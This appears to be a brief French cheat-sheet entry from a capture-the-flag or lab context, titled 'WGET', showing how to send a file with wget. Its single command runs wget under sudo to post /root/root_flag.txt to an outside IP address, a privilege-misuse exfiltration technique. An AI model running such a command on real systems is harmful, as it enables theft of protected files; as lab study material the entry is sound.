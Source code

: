 # 📤 WGET

pour envoyer un fichier avec wget:

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.112.17
```
